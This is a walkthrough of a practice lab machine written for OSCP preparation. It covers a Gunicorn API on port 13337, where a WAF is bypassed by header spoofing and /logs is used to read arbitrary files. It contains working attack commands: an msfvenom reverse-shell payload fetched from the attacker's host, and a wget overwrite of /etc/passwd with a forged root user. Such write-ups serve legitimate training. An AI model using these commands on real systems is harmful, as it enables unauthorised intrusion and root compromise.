

**Start 11:50 08-01-2025**

---
```
Scope:
192.168.247.134
```
## Recon

### Nmap

```bash
sudo nmap -sC -sT -sV -oN nmap 192.168.247.134 -p- -T5 -vvvv --min-rate=5000

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
13337/tcp open  http    syn-ack Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and a HTTP port on `13337`.

HTTP port running **Gunicorn 20.0.4**.

I found the [following blog post](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/) on a vulnerability matching this version:


Let's check the website for now.


It gives us some endpoints with the intended usage.

Let's enumerate further and check for hidden directories.


### Feroxbuster

```bash
feroxbuster --url http://192.168.247.134:13337 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```


We don't see any hidden directories that differ from the ones on the website.


## Initial Foothold

### 13337/TCP - HTTP

We start testing the endpoints one by one and find out by checking the `/logs` endpoint that the **WAF** (web app firewall) is activated:


From the previously found blog we find the following:


We need to specify the following header in order to smuggle the request:

```bash
X-Forwarded-For: localhost
```

Now when we initiate our request through repeater we see the following response:



:::tip
Remember, *Error* = good!
:::

We get a 404 error but the text specifies that *no file has been specified*.

This means we just need to issue the file path to get access, let's try it out using `/etc/passwd`.

```bash
GET /logs?file=/etc/passwd HTTP/1.1
```


Awesome, it worked! 

We notice the *clumsyadmin* user and their `/home` directory.


### local.txt

Using this technique we can get `local.txt` right away.

```bash
GET /logs?file=/home/clumsyadmin/local.txt HTTP/1.1
```


## Reverse Shell


Via the `/update` endpoint we will upload a reverse shell payload created using `msfvenom`.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f elf -o shell
```


We then add it to the request.

```bash
{
	"user":"clumsyadmin",
	"url":"http://192.168.45.236/shell"
}
```


:::caution
Remember to switch the Request mode to *POST*.
:::

The response code is *200 - OK* which means the file has been succesfully uploaded, let's get our shell. For this we will go to the `/restart` endpoint and this should prompt the shell to work.


Request via the endpoint wouldn't work, so I used Burp.


Then after upgrading our shell we can get to work on escalating privileges.


## Privilege Escalation

:::note
I uploaded my `id_rsa.pub` key as `authorized_keys` to the newly created `.ssh` folder on the target so I could get an SSH shell.
:::


We were not allowed to run `sudo -l`. 


And we couldn't run `linpeas`.

I then enumerated the system some more:


After doing some searching I found this:


But the problem still existed of us not being able to `chmod` the script into an executable, thus rendering it useless.


There was another PoC but this was yet again another script.

Let's check whether we can use any of the binaries.

:::note
We find the `/wget` binary to be particularly useful.
:::


We can use the binary to overwrite the `/etc/passwd` file to upload our own `/etc/passwd` which allows us to `su` to `kali`.

```bash
/usr/bin/wget http://192.168.45.236/passwd -O /etc/passwd
```

We must now generate a new user and a new `passwd` file which we will upload:

```bash
# Generate new user
openssl passwd -1 -salt user3 pass123

# Create new passwd file
cat > passwd                         
user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash

# Overwrite existing /etc/passwd file
wget http://192.168.45.236/passwd -O /etc/passwd
```


And we have `root` privileges.


### proof.txt


---

**Finished 14:23 08-01-2025**

[^Links]: [[OSCP Prep]]
